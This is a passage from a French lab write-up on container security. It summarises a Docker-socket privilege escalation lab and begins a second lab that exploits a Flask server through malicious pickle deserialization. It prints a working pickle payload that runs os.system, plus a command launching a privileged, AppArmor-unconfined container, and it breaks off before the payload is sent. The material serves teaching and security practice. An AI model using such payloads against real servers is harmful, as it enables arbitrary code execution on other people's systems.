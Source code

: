 ***

## Conclusion

Avec ce lab, on s'est rendu compte que ne pas sécuriser le socket Docker, c’est laisser la porte grande ouverte à n'importe qui pour prendre la machine complète.

On a fait du root sur l’hôte, on a lu des fichiers sensibles, on a mis en place un accès persistant. Ce sont des attaques classique, mais qui marchent si les bonnes pratiques ne sont pas suivies.

***

***



## - Lab 2 : Root Lab
## Exploitation du serveur Flask via désérialisation pickle

### Ce que nous avons fait

- Mise en place d’un payload pickle malicieux capable d’exécuter du code arbitraire dans un conteneur Docker tournant un serveur Flask vulnérable.
- Envoi du payload sous forme binaire au serveur via HTTP POST.
- Validation de l’exécution effective du payload dans le conteneur avec privilèges root.

***

### Commandes principales utilisées et explications

1. Création du payload malicieux Python :

```python
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('whoami > /tmp/whoami_from_pickle.txt',))

payload = pickle.dumps(Exploit())

with open('exploit.pkl', 'wb') as f:
    f.write(payload)
```

2. Lancement du conteneur root-lab (mode privilégié) :

```bash
docker run --rm --privileged --security-opt apparmor=unconfined -p 8080:8080 -d root-lab
```

3. Envoi du fichier binaire pickle au serveur Flask :

